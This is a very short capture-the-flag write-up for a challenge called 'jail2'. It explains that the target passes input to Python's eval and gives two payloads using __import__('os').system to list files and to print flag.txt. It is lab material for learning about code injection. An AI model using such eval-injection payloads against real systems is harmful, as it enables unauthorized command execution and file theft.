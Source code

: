 # jail2
## writeup

the code uses eval so any code we give it to it it will got executed 

```py
__import__("os").system("ls")
__import__("os").system("cat flag.txt")
```
